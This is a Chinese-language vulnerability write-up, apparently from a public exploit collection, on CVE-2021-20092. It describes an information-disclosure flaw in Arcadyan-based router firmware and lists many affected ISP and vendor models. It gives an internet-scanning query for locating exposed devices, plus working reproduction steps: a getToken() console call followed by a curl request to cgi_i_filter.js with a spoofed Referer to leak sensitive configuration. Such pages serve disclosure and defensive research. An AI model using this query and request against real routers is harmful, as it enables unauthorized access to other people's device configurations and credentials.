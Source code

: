 # Arcadyan固件 cgi_i_filter.js 配置信息泄漏漏洞 CVE-2021-20092

# Arcadyan固件 cgi_i_filter.js 配置信息泄漏漏洞 CVE-2021-20092

## 漏洞描述

Buffalo WSR-2533DHPL2 固件版本 <= 1.02 和 WSR-2533DHP3 固件版本 <= 1.24 的 Web 界面没有正确限制未经授权的参与者对敏感信息的访问。

## 漏洞影响

| **Vendor**          | **Device**                         | **Found on version** |
| ------------------- | ---------------------------------- | -------------------- |
| ADB                 | ADSL wireless IAD router           | 1.26S-R-3P           |
| Arcadyan            | ARV7519                            | 00.96.00.96.617ES    |
| Arcadyan            | VRV9517                            | 6.00.17 build04      |
| Arcadyan            | VGV7519                            | 3.01.116             |
| Arcadyan            | VRV9518                            | 1.01.00 build44      |
| ASMAX               | BBR-4MG / SMC7908 ADSL             | 0.08                 |
| ASUS                | DSL-AC88U (Arc VRV9517)            | 1.10.05 build502     |
| ASUS                | DSL-AC87VG (Arc VRV9510)           | 1.05.18 build305     |
| ASUS                | DSL-AC3100                         | 1.10.05 build503     |
| ASUS                | DSL-AC68VG                         | 5.00.08 build272     |
| Beeline             | Smart Box Flash                    | 1.00.13_beta4        |
| British Telecom     | WE410443-SA                        | 1.02.12 build02      |
| Buffalo             | WSR-2533DHPL2                      | 1.02                 |
| Buffalo             | WSR-2533DHP3                       | 1.24                 |
| Buffalo             | BBR-4HG                            |                      |
| Buffalo             | BBR-4MG                            | 2.08 Release 0002    |
| Buffalo             | WSR-3200AX4S                       | 1.1                  |
| Buffalo             | WSR-1166DHP2                       | 1.15                 |
| Buffalo             | WXR-5700AX7S                       | 1.11                 |
| Deutsche Telekom    | Speedport Smart 3                  | 010137.4.8.001.0     |
| HughesNet           | HT2000W                            | 0.10.10              |
| KPN                 | ExperiaBox V10A (Arcadyan VRV9517) | 5.00.48 build453     |
| KPN                 | VGV7519                            | 3.01.116             |
| O2                  | HomeBox 6441                       | 1.01.36              |
| Orange              | LiveBox Fibra (PRV3399)            | 00.96.00.96.617ES    |
| Skinny              | Smart Modem (Arcadyan VRV9517)     | 6.00.16 build01      |
| SparkNZ             | Smart Modem (Arcadyan VRV9517)     | 6.00.17 build04      |
| Telecom (Argentina) | Arcadyan VRV9518VAC23-A-OS-AM      | 1.01.00 build44      |
| TelMex              | PRV33AC                            | 1.31.005.0012        |
| TelMex              | VRV7006                            |                      |
| Telstra             | Smart Modem Gen 2 (LH1000)         | 0.13.01r             |
| Telus               | WiFi Hub (PRV65B444A-S-TS)         | v3.00.20             |
| Telus               | NH20A                              | 1.00.10debug build06 |
| Verizon             | Fios G3100                         | 2.0.0.6              |
| Vodafone            | EasyBox 904                        | 4.16                 |
| Vodafone            | EasyBox 903                        | 30.05.714            |
| Vodafone            | EasyBox 802                        | 20.02.226            |

## 网络测绘

```
app="Arcadyan-httpd-1.0" 
```

## 漏洞复现

登录页面

![img](/images/202202162258993.png)

输入任意密码跳转到 loginerror.html 页面，使用 console 调用 getToken() 获取重要参数

![img](/images/202202162258052.png)

_tn 参数设置为刚刚获取到的参数, 使用curl 发送请求包获取敏感信息

```php
curl --include "http://xxx.xxx.xxx.xxx/cgi/cgi_i_filter.js?_tn=348876758" -H "Referer: http://xxx.xxx.xxx.xxx/loginerror.html"
```

![img](/images/202202162258902.png)

